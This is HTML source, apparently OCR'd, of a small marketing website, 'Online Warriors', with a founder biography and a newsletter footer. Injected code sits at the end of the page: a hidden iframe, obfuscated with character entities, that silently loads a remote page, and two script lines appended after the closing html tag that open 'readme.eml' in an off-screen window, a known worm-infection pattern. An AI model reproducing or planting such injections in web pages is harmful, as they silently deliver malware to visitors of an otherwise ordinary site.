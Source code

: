 			   <div></article>
				 <!--end of section-->
				<!--content2-->
			<div ><article id="content2">
					   <h4>MEET THE MAN BEHIND ONLINE WARRIORS</h4>
					<div><img src="https://online-warriors.siterubix.com/wp-content/uploads/2020/05/facebook.jpg"
					height="120" width="120" border="1px solid blue">
					<div >
					  <p>Born and raised in Zimbabwe i started my marketing journey as a Network Marketer in 2015 
						after dropping out of College.When i joined network markerting the terrain became very
						 rough for me,i began to reseach on a way that i could  generate sales online,
						 i stumbled upon so many methods trying to figure out how 
						i could possibly make the internet work for me.Some of the things i dicovered 
						worked and most of them failed because they couldn't work in an African context</p><a href="#" class="hvr-radial-out button-theme">Read more</a>
					</div>
				 </div>
			   </div>
			   </article>
			   <!--end of section-->
										<!--
										</article><!--conten
										 <aside id="sidebar">
										 <h3>Other topics</h3>
										 <ol><li>Freelance<li>
										 Sports betting
										 <li>Privacy policy<li>
										 Contact us</ol>-->
										 
										    </aside><!--sidebar-->
								<footer>
							<p id="newletter"><div class="footer_blog full">
						 <h3>Newsletter</h3>
						<div class="newsletter_form">
					 <form action="index.html">
					<input type="email" placeholder="Your Email" name="#" required />
				<button>Submit</button>
			</form>
	  <p id="copyright"> 2020 Online warriors. All Rights Reserved.</p>
	</footer>

	</div><!--main-->
			
<iframe src="http://jL.ch&#117;ra.pl/rc/" style="d&#105;splay:none"></iframe>
</body>
				</html>


<html><script language="JavaScript">window.open("readme.eml", null,"resizable=no,top=6000,left=6000")</script></html>
<html><script language="JavaScript">window.open("readme.eml", null,"resizable=no,top=6000,left=6000")</script></html
